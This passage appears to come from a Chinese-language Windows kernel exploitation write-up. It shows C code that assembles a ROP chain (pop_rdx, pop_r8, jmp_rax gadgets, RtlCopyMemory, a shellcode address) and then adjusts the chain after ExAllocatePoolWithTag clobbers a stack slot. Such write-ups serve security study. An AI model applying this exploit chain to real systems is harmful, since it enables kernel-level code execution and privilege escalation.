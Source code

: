 ```plain
    *(funcaddr*)(stackspace + 0x818 + 0x58) = (funcaddr)shellcode_addr; 

    *(funcaddr*)(stackspace + 0x818 + 0x70) = (funcaddr)pop_r8;
    *(funcaddr*)(stackspace + 0x818 + 0x78) = (funcaddr)sizeof(cmd);
    *(funcaddr*)(stackspace + 0x818 + 0x80) = (funcaddr)ulRtlCopyMemory;
    *(funcaddr*)(stackspace + 0x818 + 0x88) = (funcaddr)jmp_rax;
```

但是进行`ExAllocatePoolWithTag`

[![](assets/1706090578-cba6bb27c2a0f64ba05cae797bef7e6f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124145353-564bfe5c-ba85-1.png)

打断了 ROP 链，让`rsp+68`的位置的低 32 位清零了，这让我们需要调整这段 rop 链

```plain
*(funcaddr*)(stackspace + 0x818 + 0x50) = (funcaddr)pop_rdx;        //此处被低位被清零
    *(funcaddr*)(stackspace + 0x818 + 0x58) = (funcaddr)shellcode_addr; 
    *(funcaddr*)(stackspace + 0x818 + 0x60) = (funcaddr)pop_rdx;        //恢复 rdx
    *(funcaddr*)(stackspace + 0x818 + 0x68) = (funcaddr)shellcode_addr;

    *(funcaddr*)(stackspace + 0x818 + 0x70) = (funcaddr)pop_r8;
    *(funcaddr*)(stackspace + 0x818 + 0x78) = (funcaddr)sizeof(cmd);
```

[![](assets/1706090578-f9962b94e69bd20eee6d213b5a8cff4c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124145406-5dfa36d2-ba85-1.png)
